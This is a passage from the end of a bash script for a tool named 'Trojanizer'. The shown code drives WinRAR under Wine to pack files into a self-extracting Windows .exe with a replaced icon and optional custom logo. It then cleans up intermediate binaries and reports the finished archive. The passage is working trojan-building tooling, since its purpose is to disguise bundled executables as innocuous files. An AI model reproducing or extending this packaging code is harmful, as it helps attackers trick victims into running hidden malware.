 
  else


      #
      # User have decided to use Trojanizer icons ..
      # User have decided to use is own sfx logo ..
      #
      if [ "$LoGo" = "ON" ]; then
        # strip forward slashs from path (unix), and replace them by backslashs (windows-wine)
        echo ${YellowF}['!']${white}" Replacing SFX archive logo (image.bmp).."${Reset};
        echo "$logo_path" > $IPATH/output/rep.log
        sed -i 's|/|\\|g' $IPATH/output/rep.log
        LPATH=`cat $IPATH/output/rep.log`
        rm $IPATH/output/rep.log > /dev/null 2>&1
        #
        # Wine + Winrar onelinner bash command ..
        #
        $arch "$WINRAR_PATH" a -c -z$IPATH/bin/xsf.conf -iiconZ:$BPATH\\bin\\$IcOn -iimageZ:$LPATH -r- -ed -s -sfx -y $N4m3
      else
        #
        # Wine + Winrar onelinner bash command ..
        #
        $arch "$WINRAR_PATH" a -c -z$IPATH/bin/xsf.conf -iiconZ:$BPATH\\bin\\$IcOn -r- -ed -s -sfx -y $N4m3
      fi

  fi


#
# clean old binarys from output folder ..
#
rm $IPATH/output/$ST_O > /dev/null 2>&1
rm $IPATH/output/$ST_D > /dev/null 2>&1
echo ${GreenF}[☆]${white}" Trojanizer : All tasks completed .."${Reset};
zenity --info --title="☠ Trojanizer ☠" --text "Your sfx archive:\n'$IPATH/output/$N4m3.exe'" --width 380 > /dev/null 2>&1
echo ${GreenF}[☆]${white}" Report bugs${RedF}:${white} https://github.com/DarkhackerTH/trojan/issues"${Reset};
cd $IPATH
exit

